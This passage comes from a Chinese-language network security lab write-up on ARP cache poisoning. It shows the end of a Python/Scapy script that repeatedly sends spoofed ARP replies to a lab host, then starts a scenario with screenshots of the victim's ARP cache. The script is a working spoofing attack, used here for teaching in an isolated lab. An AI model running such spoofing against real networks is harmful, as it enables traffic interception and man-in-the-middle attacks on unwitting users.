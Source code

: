 ```python
                      pdst=target_ip,    # 目标IP地址
                      hwdst=target_mac,  # 目标MAC地址
                      psrc=spoof_ip,     # 欺骗的源IP地址（伪装成此IP）
                      hwsrc=spoof_mac)   # 欺骗的源MAC地址（伪装成此MAC）

    print(f"开始ARP欺骗（回复方式）：将 {spoof_ip} 伪装成 {spoof_mac} 发送给 {target_ip}")
    
    try:
        # 持续发送ARP请求包，以保持欺骗效果
        while True:
            send(arp_request, verbose=False)
            print(f"已发送ARP欺骗请求包：{spoof_ip} -> {spoof_mac} 发送给 {target_ip}")
            time.sleep(interval)
    except KeyboardInterrupt:
        print("ARP欺骗已停止")

# 示例参数配置
target_ip = "10.9.0.5"        # 目标主机的IP地址
target_mac = "02:42:0a:09:00:05"  # 目标主机的MAC地址
spoof_ip = "10.9.0.6"         # 欺骗的IP地址，即伪装成此IP
spoof_mac = "02:42:0a:09:00:69"   # 欺骗的MAC地址，即伪装成此MAC

# 启动ARP欺骗
arp_spoof_with_reply(target_ip, target_mac, spoof_ip, spoof_mac)


```

可以看到和请求方式的代码没什么区别，只是把`op = 1`，改成了`op = 2`而已。

> 场景 1：B 的 IP 已在 A 的缓存中

![1-B-1](../image/1-B-1.png)

可以看到开始时，$hostA$ 的 ARP 缓存表中有 $hostB$ 正确的 IP-MAC 对应关系。

接下来我们在 $hostM$ 上运行 `arp-reply.py`：

![1-B-2](../image/1-B-2.png)
